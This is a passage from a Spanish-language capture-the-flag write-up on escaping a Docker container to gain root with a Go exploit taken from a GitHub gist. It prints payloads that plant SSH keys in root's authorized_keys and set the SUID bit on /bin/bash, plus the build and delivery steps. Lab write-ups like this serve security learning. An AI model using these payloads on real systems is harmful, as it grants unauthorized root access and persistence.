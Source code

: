 He tenido que instalarme go

```bash

https://go.dev/dl/
tar xvzf go1.18.3.linux-amd64.tar.gz   

Una vez ya sabemos que go funciona, vamos a ver que exploit bash le vamos a meter. Para ello lo primero que se me ocurre es usar nuestra misma id_rsa de ante y pasarla como a /root/.ssh/Autorithedkeys

![](assets/2022-07-01-21-36-49.png)

Por lo que sería algo así en el codigo de go
```bash
var payload = "#!/bin/bash \n cp /home/noah/.ssh/id_rsa /root/.ssh/authorized_keys" 
``` 
y una vez realizado poder conectarnos por ssh. Hay otras opciones como pasar mi ssh key a root para conectarnos por ssh

```bash
var payload = "#!/bin/bash \n mkdir -p /root/.ssh && echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing' > /root/.ssh/authorized_keys" 
```

Otra opción y la que vamos a usar es la de s4vitar. El motivo es que pormás que he probado tengo un problema con mi gccgo y pide dependencias exteriores, al estar bloqueado he mirado su video y el lo hace de otra forma que a mi siempre me sale lo siguiente cuando ejecuto el proceos del exploit que vimos de github. Como no quiero seguir perdiendo tiempo y prefiero hacer otra máquina pues copio lo que hace el. Recordad que el canal de s4vitar es https://www.youtube.com/watch?v=dekA2dzLSlE&ab_channel=S4viOnLive

```bash
root@0f4c2517af40:/tmp# ./exploit 
./exploit: error while loading shared libraries: libgo.so.21: cannot open shared object file: No such file or directory
```

El exploit lo que hace es que teniendo dos ssh abiertos con el usuario podemos ejecutar el docker , instalar y ejecutar el exploit y al volverlo a hacer , realiza el payload.

Una vez descargado de github el exploit https://gist.github.com/thinkycx/e2c9090f035d7b09156077903d6afa51 cambiamos el payload por 

```bash
var payload= "#!/bin/bash \n chmod u+s /bin/bash"
```
Con esto le damos a binbash el permiso u+s

Una vez hecho esto compilamos por go. Aquí es donde yo tengo problemas porque mi pc tiene instalado gccgo que mete unas librerías externas la cual no son accesibles desde el servidor atacado.

```bash
go build -ldflags "-s -w" main.go
mv main exploit
```
Una vez que tenemos el exploit , creamos un servidor python3 para descargarnos en noah el exploit en noah y le damos permisos de ejecución
